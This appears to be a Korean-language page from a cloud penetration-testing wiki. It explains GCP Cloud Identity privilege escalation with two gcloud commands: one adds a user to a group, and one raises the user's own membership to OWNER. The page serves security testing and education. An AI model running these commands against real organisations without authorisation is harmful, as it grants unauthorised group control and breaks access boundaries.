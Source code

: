 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

cloudidentity 서비스에 대한 자세한 정보는 이 페이지를 확인하세요:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### 그룹에 자신 추가하기

사용자에게 충분한 권한이 있거나 그룹이 잘못 구성된 경우, 그는 새로운 그룹의 구성원으로 자신을 추가할 수 있습니다:
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### 그룹 구성원 수정

사용자가 충분한 권한을 가지고 있거나 그룹이 잘못 구성된 경우, 그는 자신이 구성원인 그룹의 OWNER가 될 수 있습니다:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
